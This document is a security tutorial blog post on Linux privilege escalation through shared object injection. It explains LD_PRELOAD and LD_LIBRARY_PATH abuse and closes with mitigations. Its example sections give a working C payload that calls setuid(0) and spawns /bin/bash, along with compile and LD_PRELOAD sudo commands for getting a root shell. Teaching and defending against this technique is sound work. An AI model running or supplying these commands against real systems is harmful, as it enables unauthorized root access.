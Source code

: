 ```yaml
---
title: "Shared Object Injection"
description: 
date: 2025-01-26T13:50:55Z
image: post/suid.jpg
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","Linux","SUID"]
categories: ["Linux-Privilege-Escalation","SUID-Attacks"]
---
```


### **Shared Object Injection for Privilege Escalation**

**Shared Object (SO) injection** is a technique where an attacker forces a process to load a malicious shared library (.so file) into its memory. When executed, the malicious code in the library runs with the privileges of the target process, potentially leading to privilege escalation if the process has higher privileges (e.g., root).

---

### **How Shared Object Injection Works**

1. **Shared Libraries in Linux**:
    
    - Linux dynamically links shared libraries (`.so` files) at runtime.
    - Applications specify required libraries in their code, and the system's **dynamic linker** loads them when the application starts.
    
1. **Manipulating Library Loading**:
    
    - Attackers can exploit library loading mechanisms, such as modifying environment variables (`LD_PRELOAD`, `LD_LIBRARY_PATH`), or targeting programs that improperly handle library paths.
    
1. **Privilege Escalation**:
    
    - If an attacker can make a root-owned process load their malicious `.so` file, they can execute arbitrary code as root.

---

### **Techniques for Shared Object Injection**

#### 1. **Using `LD_PRELOAD`**:

- The `LD_PRELOAD` environment variable allows users to specify additional shared libraries to be loaded before any others.
- Exploit scenario:
    - A program with `sudo` permissions does not sanitize environment variables.
    - The attacker sets `LD_PRELOAD` to point to their malicious `.so` file.
- Example:
    
    ```bash
    echo 'void _init() { setuid(0); system("/bin/bash"); }' > exploit.c
    gcc -shared -fPIC -o exploit.so exploit.c
    LD_PRELOAD=./exploit.so sudo some-command
    ```
    

#### 2. **Hijacking `LD_LIBRARY_PATH`**:

- `LD_LIBRARY_PATH` specifies directories for the linker to search for shared libraries.
- Exploit scenario:
    - The attacker modifies `LD_LIBRARY_PATH` to include a directory containing malicious libraries.
- Example:
    
    ```bash
    export LD_LIBRARY_PATH=/tmp/malicious:$LD_LIBRARY_PATH
    ```
    

#### 3. **Replacing Legitimate Libraries**:

- Replace a shared library on the system with a malicious one.
- Exploit scenario:
    - Insufficient file permissions allow an attacker to overwrite a `.so` file used by a privileged program.

#### 4. **Dynamic Linking Exploits**:

- Exploit applications that dynamically load libraries during execution using functions like `dlopen()` or `dlsym()`.

---

### **Example: Privilege Escalation Using LD_PRELOAD**

1. **Create a Malicious Shared Object**:
    
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    void _init() {
        setuid(0);  // Set the UID to root
        system("/bin/bash");  // Spawn a root shell
    }
    ```
    
    Save this as `exploit.c` and compile:
    
    ```bash
    gcc -fPIC -shared -o exploit.so exploit.c
    ```
    
2. **Set LD_PRELOAD**:
    
    ```bash
    LD_PRELOAD=/path/to/exploit.so sudo some-command
    ```
    
3. **Result**: A root shell is spawned if the target process is vulnerable.
    

---

### **Mitigations Against SO Injection**

1. **Disable `LD_PRELOAD` for SUID Programs**:
    
    - Modern Linux systems ignore `LD_PRELOAD` for SUID binaries to prevent this type of attack.
2. **Restrict `LD_LIBRARY_PATH`**:
    
    - Limit the use of custom library paths in privileged programs.
3. **Secure File Permissions**:
    
    - Ensure shared libraries are owned by root and are not writable by unprivileged users.
4. **Use Static Linking**:
    
    - For critical programs, avoid dynamic linking altogether.
5. **Audit Programs**:
    
    - Identify and fix applications that dynamically load libraries without proper checks.
